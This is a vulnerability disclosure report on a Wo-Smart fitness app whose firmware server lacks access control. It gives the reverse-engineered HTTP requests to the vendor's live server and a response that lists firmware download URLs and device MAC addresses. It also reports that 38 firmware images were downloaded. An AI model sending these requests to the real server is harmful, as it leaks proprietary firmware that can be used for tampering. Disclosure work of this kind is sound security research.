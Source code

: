 # Vulnerability Report - com.chenyu.morepro- Incorrect Access Control

**Product:** `com.chenyu.morepro` 

**Vendor:** [WoFit](http://wo-smart.com/)

**Version:** 7.2.3

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.chenyu.morepro` , developed by **Wo-Smart**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `queryDeviceOTAConfigInfo` method in the `QueryDeviceInfoService` class  and the `BaseUrl` String value in the `FitupHttpUtil` class provide the necessary URL and other information required for the HTTP request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003102958145](https://s2.loli.net/2024/10/03/7ZcAzEeKhPUQaB4.png)

   ![image-20241003103409408](https://s2.loli.net/2024/10/03/V4P9sMIeTz7jFU3.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://apisvr.wo-smart.com:7443/static/version_android.json HTTP/1.1
   Host: apisvr.wo-smart.com:7443
   Content-Type: text/plain
   Content-Length: 0
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Date: Thu, 03 Oct 2024 02:25:04 GMT
   Server: Apache/2.4.18 (Ubuntu)
   Access-Control-Allow-Origin: *
   Access-Control-Allow-Methods: POST, OPTIONS
   Access-Control-Allow-Headers: Content-Type
   Last-Modified: Mon, 30 Sep 2024 09:21:32 GMT
   ETag: "40da-62352bb0eea96"
   Accept-Ranges: bytes
   Content-Length: 16602
   Vary: Accept-Encoding
   Content-Type: application/json
   
   {
       "32510&SPECIAL_OTA&TK79": {
           "versionCode": 60310,
           "versionName": "5.6.3.10",
           "assignDevice": true,
           "deviceMacs": [
               "66:06:4c:00:0b:9d",
               "test"
           ],
           "upgradeDes": "TK79 upgrade",
           "fileUrl": "static/app_MP_TK79_5.6.3.10_ded9c2aa-6ad981c10c63b9b8a813444b860a1eae.bin"
       },
       "32510&OTA&TK79": {
           "versionCode": 60310,
           "versionName": "5.6.3.10",
           "assignDevice": true,
           "deviceMacs": [
               "66:06:4C:00:0B:89"
           ],
           "upgradeDes": "TK79 upgrade",
           "fileUrl": "static/app_MP_TK79_5.6.3.10_ded9c2aa-6ad981c10c63b9b8a813444b860a1eae.bin"
       },
        ......
   ```

   Then, contact the `fileUrl` with `BaseUrl`, we can access the firmware directly.

   ```HTTP
   GET https://apisvr.wo-smart.com:7443/static/app_MP_TK79_5.6.3.10_ded9c2aa-6ad981c10c63b9b8a813444b860a1eae.bin
   HTTP/1.1
   Host: apisvr.wo-smart.com:7443
   Content-Type: text/plain
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003103734008](https://s2.loli.net/2024/10/03/2L6UoOzJwsuqWhb.png)
   
   In total, we successfully downloaded 38 firmware by exploiting this vulnerability.


## Impact

An attacker can exploit this vulnerability to:

* Download the latest firmware before it is officially released.
* Analyze the firmware for vulnerabilities or proprietary information.
* Create modified firmware images with malicious code.
* Distribute compromised firmware updates to unsuspecting users.

## Remediation

* Implement proper access control on the firmware server, such as device ID and user ID verification.
* Enhance the app's firmware update mechanism to include authentication credentials in the requests.


## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.